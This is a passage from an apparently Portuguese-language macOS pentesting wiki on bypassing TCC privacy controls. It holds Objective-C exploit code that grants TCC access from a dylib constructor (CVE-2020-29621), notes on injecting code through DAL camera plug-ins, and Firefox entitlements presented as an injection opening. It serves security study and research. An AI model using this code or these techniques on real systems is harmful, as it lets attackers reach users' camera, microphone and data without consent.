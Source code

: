 ```objectivec
    SecRequirementRef requirement = NULL;
    SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
    CFDataRef requirementData = NULL;
    SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);
    
    TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {
    
    add_tcc_entry();
    
    NSLog(@"[+] Exploitation finished...");
    exit(0);
```
Para mais informações, consulte o [**relatório original**](https://wojciechregula.blog/post/play-the-music-and-bypass-tcc-aka-cve-2020-29621/).

### Plug-ins da Camada de Abstração de Dispositivos (DAL)

Aplicativos do sistema que abrem o fluxo da câmera via Core Media I/O (aplicativos com **`kTCCServiceCamera`**) carregam **no processo esses plug-ins** localizados em `/Library/CoreMediaIO/Plug-Ins/DAL` (não restritos pelo SIP).

Apenas armazenar uma biblioteca com o **construtor** comum funcionará para **injetar código**.

Vários aplicativos da Apple eram vulneráveis a isso.

## Por injeção de processo

Existem diferentes técnicas para injetar código dentro de um processo e abusar de seus privilégios TCC:

{% content-ref url="../../macos-proces-abuse/" %}
[macos-proces-abuse](../../macos-proces-abuse/)
{% endcontent-ref %}

### Firefox

O aplicativo Firefox ainda é vulnerável tendo a permissão `com.apple.security.cs.disable-library-validation`:
```xml
codesign -d --entitlements :- /Applications/Firefox.app
Executable=/Applications/Firefox.app/Contents/MacOS/firefox

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>com.apple.security.cs.allow-unsigned-executable-memory</key>
    <true/>
    <key>com.apple.security.cs.disable-library-validation</key>
    <true/>
    <key>com.apple.security.device.audio-input</key>
    <true/>
    <key>com.apple.security.device.camera</key>
    <true/>
    <key>com.apple.security.personal-information.location</key>
    <true/>
    <key>com.apple.security.smartcard</key>
    <true/>
</dict>
</plist>
```